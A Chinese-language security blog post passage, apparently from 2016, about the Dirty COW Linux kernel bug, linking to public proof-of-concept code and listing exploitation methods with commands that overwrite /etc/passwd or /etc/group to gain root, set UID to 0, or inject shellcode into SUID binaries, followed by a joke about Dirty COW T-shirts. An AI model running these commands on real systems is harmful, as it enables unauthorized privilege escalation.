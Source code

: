 ```
```

**2016.10.27 10:30 更新多种不同利用方式的POC：**

POC地址：

[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)



不同利用方式的总结如下：

1)<br>在/tmp/.pwn写入<br>#!/bin/bash<br>echo MOOOOOOOOOOO<br>/bin/bash

chmod +x /tmp/.pwn<br>然后修改/etc/passwd中的shell指向<br>./dirtyc0w /etc/passwd root:x:0:0:root:/root:/tmp/.pwn

2)<br>添加用户到sudo组<br>./dirtyc0w /etc/group "$(sed 's/(sudo:x:.*:)/1test1/g' /etc/group)"<br>下次管理员再登陆的话 sudo su 不需要密码

3)<br>将/etc/passwd中的uid位改为0

4)<br>注入shellcode到suid文件，比如最常见的2个文件<br>/usr/bin/crontab<br>/usr/bin/passwd



**听说还有周边卖？**

[![](https://p1.ssl.qhimg.com/t018036e93c76f053e6.png)](https://p1.ssl.qhimg.com/t018036e93c76f053e6.png)****

[![](https://p3.ssl.qhimg.com/t014665ff156fbeea02.png)](https://p3.ssl.qhimg.com/t014665ff156fbeea02.png)

[![](https://p5.ssl.qhimg.com/t01d074c22cca74c8d3.png)](https://p5.ssl.qhimg.com/t01d074c22cca74c8d3.png)

一件脏牛的周边T恤卖2000多刀，这真的不是在逗我么？知道真相的我眼泪留下来。



